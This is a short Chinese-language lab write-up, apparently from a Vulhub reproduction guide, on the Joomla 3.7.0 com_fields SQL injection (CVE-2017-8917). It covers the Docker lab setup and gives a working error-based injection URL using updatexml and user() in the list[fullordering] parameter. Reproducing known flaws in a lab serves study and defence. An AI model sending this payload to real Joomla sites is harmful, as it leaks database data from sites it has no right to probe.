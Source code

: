 # Joomla 3.7.0 SQL注入漏洞 CVE-2017-8917 

## 漏洞描述

Joomla是一套世界第二流行的内容管理系统。它使用的是PHP语言加上MySQL数据库所开发的软件系统，可以在Linux、 Windows、MacOSX等各种不同的平台上执行，目前由开放源码组织Open Source Matters进行开发与支持。

Joomla 3.7版本后引入一个新的组件 “com_fields”，这一组件会引发易被利用的漏洞，并且不需要受害者网站上的高权限，这意味着任何人都可以通过对站点恶意访问利用这个漏洞。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库主机名：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

安装完成后，访问以下链接，即可看到报错信息：

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![image-20220224194438666](images/202202241944763.png)

